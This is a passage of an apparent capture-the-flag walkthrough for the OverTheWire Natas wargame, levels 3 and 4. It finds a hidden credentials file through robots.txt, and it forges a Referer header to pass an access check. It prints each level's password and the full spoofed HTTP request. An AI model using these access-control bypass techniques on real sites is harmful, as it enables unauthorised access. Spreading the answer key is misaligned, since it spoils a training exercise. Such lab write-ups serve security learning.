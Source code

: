 **Flag:** `sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`

# Level 3
http://overthewire.org/wargames/natas/natas3.html
```
Username: natas3
Password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
URL:      http://natas3.natas.labs.overthewire.org
```

http://natas3.natas.labs.overthewire.org/robots.txt

```
User-agent: *
Disallow: /s3cr3t/
```

http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

```
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

**Flag:** `Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`

# Level 4
http://overthewire.org/wargames/natas/natas4.html

```
Username: natas4
Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
URL:      http://natas4.natas.labs.overthewire.org
```

[PHP - Detect the incoming url requesting php page from another source/url](https://stackoverflow.com/questions/9790771/php-detect-the-incoming-url-requesting-php-page-from-another-source-url)

Find query, edit `Referer` header and resend
```
GET http://natas4.natas.labs.overthewire.org/index.php
```
```
Host: natas4.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas5.natas.labs.overthewire.org/
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Connection: keep-alive
Cookie: __cfduid=d805f2e2655530eb5f74e8bf15df1da681565258153
```

```
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
